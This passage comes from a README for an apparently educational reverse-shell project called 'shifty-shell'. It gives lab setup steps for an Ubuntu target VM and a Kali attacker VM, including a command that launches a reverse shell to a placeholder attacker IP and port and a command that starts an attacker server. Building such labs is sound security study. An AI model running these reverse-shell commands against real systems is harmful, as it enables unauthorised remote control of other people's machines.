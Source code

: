 3. You Can Verify Environment in Ubuntu VM:

    ```bash
    cd ~/shifty-shell
    source venv/bin/activate
    python3 -m shell.reverse_shell <attacker_ip> <port>
    ```

---

#### 5. Kali VM Setup (Attacker)

1. Check SSH Service Status in Kali VM:
    ```bash
    sudo systemctl status ssh
    ```
    - If it's inactive or disabled:
        ```bash
        sudo systemctl enable ssh
        sudo systemctl start ssh
        ```
    - You should see `active (running)` in green.

2. Transfer and Run Setup Script

   - From your host:
        ```bash
        scp attacker_vm_setup.sh kali@<kali-ip>:~/
        ssh kali@<kali-ip>
        chmod +x ~/attacker_vm_setup.sh
        ./attacker_vm_setup.sh
        ```

   The `attacker_vm_setup.sh` script will:
   - Clone the repo
   - Install required Python packages
   - Setup `venv` and install dependencies
   - Print IP and SSH status

3. Start the Server:
   ```bash
   cd ~/shifty-shell
   source venv/bin/activate
   python3 -m server.attacker_server
   ```

After the setup is done, please check [Usage Guide](#usage-guide-running) for instructions on how to launch the shell.   

---

### (Optional) Create a Shared Folder Between Host and VM for Easier Output Sharing 

- This creates a live folder that both your VM (Ubuntu VM used here) and your host OS (e.g. Windows/WSL) can access.
